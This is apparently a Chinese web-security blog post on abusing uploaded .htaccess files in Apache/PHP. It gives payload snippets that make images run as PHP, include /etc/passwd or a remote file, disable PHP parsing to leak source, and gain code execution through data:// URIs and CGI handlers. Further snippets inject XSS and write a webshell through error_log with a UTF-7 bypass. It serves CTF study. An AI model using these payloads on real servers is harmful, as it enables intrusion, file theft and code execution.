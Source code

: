 # 原创
：  .htaccess利用方式

# .htaccess利用方式

#### .htaccess利用方式

## 文件解析

> 
经常出现在文件上传的黑名单没有限制 .htaceess 后缀，通过上传 .htaccess 文件，再上传图片，使图片的 php 恶意代码得以被解析执行<br/> .htaccess 文件内容有如下两种


```
(1)SetHandler 指令

# 将images.png 当做 PHP 执行
&lt;FilesMatch  "images.png"&gt;
SetHandler  application/x-httpd-php
&lt;/FilesMatch&gt;

```

```
(2)AddType

# 将 .jpg(.xxx) 当做 PHP 文件解析
AddType application/x-httpd-php .jpg(.xxx)

```

## 文件包含

> 
本地文件包含<br/> 通过 php_value 来设置 auto_prepend_file或者 auto_append_file 配置选项包含一些敏感文件，同时在本目录或子目录中需要有可解析的 php 文件来触发<br/> .htaccess 分别通过这两个配置选项来包含 /etc/passwd，并访问同目录下的 index.php文件


```
auto_prepend_file

php_value auto_prepend_file /etc/passwd

```

```
auto_append_file

php_value auto_append_file /etc/passwd

```

> 
远程文件包含<br/> PHP 的 all_url_include 配置选项这个选项默认是关闭的，如果开启的话就可以远程包含。因为 all_url_include 的配置范围为 PHP_INI_SYSTEM,所以无法利用 php_flag 在 .htaccess 中开启


```
php_value auto_append_file http://10.87.9.156/phpinfo.txt

```

## 源码泄露

> 
利用 php_flag 将 engine 设置为 0,在本目录和子目录中关闭 php 解析,造成源码泄露


```
php_flag engine 0

```

## 代码执行

> 
（1）利用伪协议<br/> all_url_fopen、all_url_include 为 On<br/> （2）解析.htaccess


```
（1）
php_value auto_append_file data://text/plain;base64,PD9waHAgcGhwaW5mbygpOw==
#php_value auto_append_file data://text/plain,%3C%3Fphp+phpinfo%28%29%3B

```

```
（2.1）
php_value auto_append_file .htaccess
#&lt;?php phpinfo();
（2.2）
这种适合同目录或子目录没有 php 文件。
需要先设置允许可访问 .htaccess 文件

Files ~ "^.ht"&gt;
 Require all granted
 Order allow,deny
 Allow from all
&lt;/Files&gt;

将 .htaccess指定当做 php文件处理

SetHandler application/x-httpd-php
# &lt;?php phpinfo(); ?&gt;

```

<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210508202453546.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210508202507264.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

## 命令执行

> 
CGI启动


```
cgi_module 需要加载，即 apache 配置文件中有

LoadModule cgi_module modules/mod_cgi.so
.htaccess内容

Options ExecCGI #允许CGI执行
AddHandler cgi-script .xx #将xx后缀名的文件，当做CGI程序进行解析
ce.xx

#!C:/Windows/System32/cmd.exe /k start calc.exe
6

```

<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210508202654764.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> [参考例题](https://github.com/De1ta-team/De1CTF2020/tree/master/writeup/web/check%20in)

> 
FastCGI启动


```
mod_fcgid.so需要被加载。即 apache 配置文件中有

LoadModule fcgid_module modules/mod_fcgid.so
.htaccess

Options +ExecCGI
AddHandler fcgid-script .xx
FcgidWrapper "C:/Windows/System32/cmd.exe /k start calc.exe" .xx

ce.xx 内容随意

```

## XSS

> 
highlight_file


```
.htaccess
php_value highlight.comment '"&gt;&lt;script&gt;alert(1);&lt;/script&gt;'

index.php
&lt;?php
highlight_file(__FILE__);
// comment

其中的 highlight.comment 也可以换成如下其他选项

```

> 
错误消息链接


```
index.php ：
&lt;?php
include('foo');#foo报错

.htaccess
php_flag display_errors 1
php_flag html_errors 1
php_value docref_root "'&gt;&lt;script&gt;alert(1);&lt;/script&gt;"

```

## 自定义错误文件

```
error.php
&lt;?php include('shell');#报错页面

.htaccess
php_value error_log /tmp/www/html/shell.php 
php_value include_path "&lt;?php phpinfo(); __halt_compiler();"

访问 error.php，会报错并记录在 shell.php 文件中

```

```
因为会经过 html 编码，所以需要 UTF-7 来绕过。

.htaccess

# 第一次
php_value error_log /tmp/shell #定义错误路径
#---- "&lt;?php phpinfo(); __halt_compiler();" in UTF-7:
php_value include_path "+ADw?php phpinfo()+ADs +AF8AXw-halt+AF8-compiler()+ADs"

# 第二次
php_value include_path "/tmp" #将include()的默认路径改变
php_flag zend.multibyte 1
php_value zend.script_encoding "UTF-7"

```

[参考例题](https://www.cnblogs.com/tr1ple/p/11439994.html)
